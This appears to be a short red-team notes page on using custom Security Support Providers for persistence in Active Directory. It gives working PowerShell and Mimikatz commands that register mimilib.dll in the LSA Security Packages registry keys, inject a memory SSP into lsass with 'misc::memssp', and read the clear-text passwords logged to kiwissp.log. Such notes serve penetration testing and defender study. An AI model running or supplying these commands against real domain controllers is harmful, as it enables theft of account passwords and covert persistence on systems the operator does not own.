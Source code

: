 # Custom SSPs

## <mark style="color:red;">SSP</mark>

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. here we are using custom SSPs for persistence in Active Directory with Mimikatz.

Mimikatz provdes custom SSP  `mimilib.dll`, This SSP logs local logons, service account and machine aacount passwords in clear text on the target server.

```
# First way: drop mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | Select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

# Second way: using mimikatz to inject into lsass (unstable with Server 2016)
Invoke-Mimikatz -Command '"misc::memssp"'

# All logons on the DC are logged to C:\Windows\system32\kiwissp.log
Get-Content C:\Windows\system32\kiwissp.log
```
